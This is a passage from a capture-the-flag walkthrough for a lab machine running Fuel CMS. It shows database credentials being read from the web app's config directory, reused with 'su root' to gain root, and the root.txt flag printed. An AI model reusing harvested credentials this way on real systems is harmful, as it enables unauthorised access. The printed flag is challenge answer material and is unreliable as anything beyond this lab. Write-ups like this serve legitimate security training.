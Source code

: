 - **Its seeking pass word now**

- **Remember! there was a hint of the data-base of the webserver**
![image-5](https://github.com/user-attachments/assets/f071fb3d-429e-4a46-8e2c-cd96e0889193)
- **Lets get into it**

- **In the `www-data@ubuntu:/var/www/html/fuel/application/config$` directory we get the password**
```sh
'username' => 'root',
'password' => 'mememe',

```

```sh
www-data@ubuntu:/var/www/html/fuel/application/config$ su root
Password: mememe

root@ubuntu:/var/www/html/fuel/application/config# cd /root
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
b9bbcb33e11b80be759c4e844862482d 

```
> ### root.txt: `b9bbcb33e11b80be759c4e844862482d`
